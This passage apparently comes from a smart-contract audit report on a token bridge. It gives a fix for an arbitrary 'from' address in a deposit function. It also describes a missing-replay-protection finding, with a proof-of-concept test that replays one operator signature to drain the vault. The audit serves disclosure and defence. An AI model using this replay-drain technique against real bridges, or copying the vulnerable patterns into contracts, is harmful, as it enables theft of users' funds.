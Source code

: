 
**Recommended Mitigation:** Consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
    if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
        revert L1BossBridge__DepositLimitReached();
    }
-   token.transferFrom(from, address(vault), amount);
+   token.transferFrom(msg.sender, address(vault), amount);

    // Our off-chain service picks up this event and mints the corresponding tokens on L2
-   emit Deposit(from, l2Recipient, amount);
+   emit Deposit(msg.sender, l2Recipient, amount);
}
```


### [H-2] The lack of replay protection in `L1BossBridge::withdrawTokensToL1` allows withdrawals by signature to be replayed

**Description:** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.The signatures do not include any kind of replay-protection mechanisn.

**Impact:** Valid signatures from any  bridge operator can be reused by the  attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concept:**
Include the following test in the `L1TokenBridge.t.sol` file:


```javascript
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```
